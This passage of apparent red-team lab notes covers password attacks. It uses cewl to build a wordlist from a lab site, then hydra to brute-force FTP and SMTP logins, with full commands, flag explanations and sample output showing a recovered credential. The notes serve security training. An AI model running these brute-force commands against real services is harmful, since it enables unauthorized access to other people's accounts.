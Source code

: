 To generate your wordlist usingÂ cewlÂ against the website:

```shell-session
user@machine$ cewl -m 8 -w clinic.lst https://clinic.thmredteam.com/  
```

Note that you will also need to generate a username wordlist as shown in Task 3: Password Profiling #1 for the online attack questions.

# Online password attacks
---

Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such asÂ HTTP,Â SSH, VNC,Â FTP, SNMP,Â POP3, etc. This section showcases usingÂ hydraÂ which is a common tool used in attacking logins for various network services.  

### Hydra

HydraÂ supports an extensive list of network services to attack. UsingÂ hydra, we'll brute-force network services such as web login pages,Â FTP,Â SMTP, andÂ SSHÂ in this section.Â Often, withinÂ hydra, each service has its own options and the syntaxÂ hydraÂ expects takes getting used to. It's important to check the help options for more information and features.  

### FTP  

In the following scenario, we will perform a brute-force attack against anÂ FTPÂ server. By checking theÂ hydraÂ help options, we know the syntax of attacking theÂ FTPÂ server is as follows:


```shell-session
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x
```

-lÂ ftpÂ we are specifying a single username, use-LÂ for a username wordlist

-P PathÂ specifying the full path of wordlist, you can specify a single password byÂ usingÂ -p.

ftp://10.10.x.xÂ the protocol and the IP address or the fully qualified domain name (FDQN) of the target.

Remember that sometimes you don't need to brute-force and could first try default credentials.Â Try to attack theÂ FTPÂ server on the attachedÂ VMÂ and answer the question below.

### SMTP  

Similar toÂ FTPÂ servers, we can also brute-forceÂ SMTPÂ servers usingÂ hydra. The syntax is similar to the previous example. The only difference is the targeted protocol. Keep in mind, if you want to try other online password attack tools, you may need to specify the port number, which is 25. Make sure to read the help options of the tool.


```shell-session
user@machine$ hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:41:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking smtp://10.10.x.x:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.x.x   login: email@company.xyz password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
```